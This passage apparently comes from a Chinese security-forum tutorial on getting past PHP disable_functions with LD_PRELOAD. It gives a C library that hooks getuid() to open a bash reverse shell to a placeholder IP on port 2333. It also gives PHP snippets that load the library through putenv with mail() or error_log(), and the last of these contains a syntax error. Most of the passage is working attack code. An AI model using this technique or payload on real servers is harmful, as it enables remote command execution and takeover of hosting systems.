 hook\_getuid.c

```bash
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void payload() {
    system("bash -c 'bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/2333 0>&1'");
}

uid_t getuid() {
    if (getenv("LD_PRELOAD") == NULL) {
        return 0;
    }
    unsetenv("LD_PRELOAD");
    payload();
}
```

编译后我们可以利用 putenv 函数来实现链接库的设置

```php
<?php
putenv('LD_PRELOAD=/var/www/html/hook_getuid.so');    // 注意这里的目录要有访问权限
mail("a@localhost","","","","");
?>
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-9c2e5e9ee11e3c7a26d2fd130adc727ed34e6a37.png)

运行文件即可反弹 shell

### 利用 error\_log 函数启动新进程

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-6b7e6611ad3313abca157e6b00098843e90d3bd3.png)

error\_log 也存在发送信息的行为，我们可以看到这里也是向邮箱中发送信息，决定发送方式的是倒数第三个参数，为 1 时为邮箱，当然也有可以不存在的参数。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-bc0985cc4eb23443a4e52d87d9bc99a843dd6204.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-ca0986a0d6c2c902c668c16bd510f716cabef17f.png)

那么同理可得，这里也会调用 sendmail，`strace -f php error.php 2>&1 | grep -A2 -B2 execve` 看一下

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-40acbc27e4302e202644e237598e067a891c205d.png)

那么同样使用 putenv 测试一下

```php
<?php
putenv('LD_PRELOAD=/var/www/html/hook_getuid.so');
error_log("",1"","");
?>
```
